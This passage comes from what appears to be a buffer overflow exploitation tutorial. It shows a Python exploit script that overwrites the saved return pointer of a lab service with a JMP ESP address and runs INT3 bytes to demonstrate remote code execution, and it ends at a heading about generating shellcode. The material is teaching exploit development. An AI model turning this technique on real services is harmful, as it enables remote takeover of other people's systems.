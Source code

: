 Let's use some specific number of consecutive `"INT 3"` instructions as our
bytecode to be executed, so that if Immunity tells us the program is trying to
execute as many of them as we've specified we know we've succeeded. I'm going
to use four of them.

Our exploit evolves to become:

```{.python .numberLines}
#!/usr/bin/env python2
import socket
import struct

RHOST = "172.17.24.132"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

ptr_jmp_esp = 0x080414C3

buf = ""
buf += "A"*(offset_srp - len(buf))      # padding
buf += struct.pack("<I", ptr_jmp_esp)   # SRP overwrite
buf += "\xCC\xCC\xCC\xCC"               # ESP points here
buf += "D"*(buf_totlen - len(buf))      # trailing padding
buf += "\n"

s.send(buf)
```

\newpage

Restarting the process within Immunity, and firing this off, we see that we've
successfully hijacked the usual program flow and it's trying to execute the
data we sent it as code! We see our sequence of `\xCC` bytes on the stack as
well as in the disassembly, and the status bar tells us the program hit an
`"INT 3 command"`. Note that the disassembly view will show you one less `"INT
3"` than you sent it, since Immunity considers one of them as having already
been executed and scrolls right past it. If you scroll up to try to see the
already-executed `"INT 3"` then you'll see an `"\xCC"` but Immunity might not
seem to disassemble it as an actual `"INT 3"`. Disassembling backwards is hard
because x86 instructions are variable-length.

![Immunity informing us of `"INT 3"` Remote Code Execution achievement
unlocked](dostackbufferoverflowgood_images/immdbg_int3.png)

In doing this, we've technically achieved Remote Code Execution, it's just that
the Code we're Remotely Executing isn't terribly useful to us (yet). Give
yourself a huge pat on the back!

\newpage
# Generate Shellcode
